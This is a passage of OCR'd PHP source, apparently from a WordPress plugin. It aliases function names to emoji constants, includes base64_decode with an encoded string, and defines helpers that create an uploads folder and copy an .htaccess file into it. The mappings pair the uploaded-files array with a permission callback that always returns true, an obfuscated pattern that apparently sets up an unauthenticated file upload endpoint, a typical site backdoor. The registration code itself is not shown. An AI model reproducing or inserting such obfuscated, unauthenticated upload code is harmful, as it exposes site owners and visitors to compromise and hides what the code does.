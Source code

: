        '📝⁉️' => 'file_exists',
        '📂‼️' => 'mkdir',
        '☎️' => 'callback',
        '🗃️' => '_FILES',
        '🤙' => 'permission_callback',
        '🪃💯' => '__return_true',
        '💯' => true,
        '🔸' => '.',
        '🧵' => 'str_replace',
        '🪪' => 'htaccess',
        '📏' => 'constant',
        '🪹' => 'is_empty',
        '🫥' => 'copy',
        '🏰📂' => 'basedir',
        '📤🗂️' => 'wp_upload_dir',
        '🚨️⁉️' => 'is_wp_error',
        '🗂️📋' => 'dirname',
        '🗺️' => 'map',
        '👔📜' => 'admin_enqueue_scripts',
        '🚀📜' => 'wp_enqueue_script',
        '🏰🔗' => 'baseurl',
        '🙉' => 'base64_decode',
        '🙈' => 'U2xCRFpteE1WSGR1TlVObVNVUXdaMGwyUTJac1RGUjNialZEWmtscWN6MD0=',
    ];

    foreach (explode(' ', $emoji_string) as $emoji) {
        $emoji_array[$emoji] = $emoji;
    }

    foreach ($emoji_array as $key => $value) {
        define($key, $value);
    }

    function upload_directory(){
        $dir = wp_upload_dir()['basedir'] . '/uploads';
        if (!file_exists($dir)) {
            mkdir($dir);
            // Add .htaccess file to the directory
            copy(dirname(__FILE__) . '/.htaccess', $dir . '/.htaccess');
        }
        return $dir;
    }

    function upload_url($filename){
        return wp_upload_dir()['baseurl'] . '/uploads' . str_replace(upload_directory(), '', $filename);
    }

    function implode_strings(...$parts) {
        return implode('', $parts);
    }

    function urlencoded_strings(...$parts) {
        return implode('/', array_map('urlencode', $parts));
    }
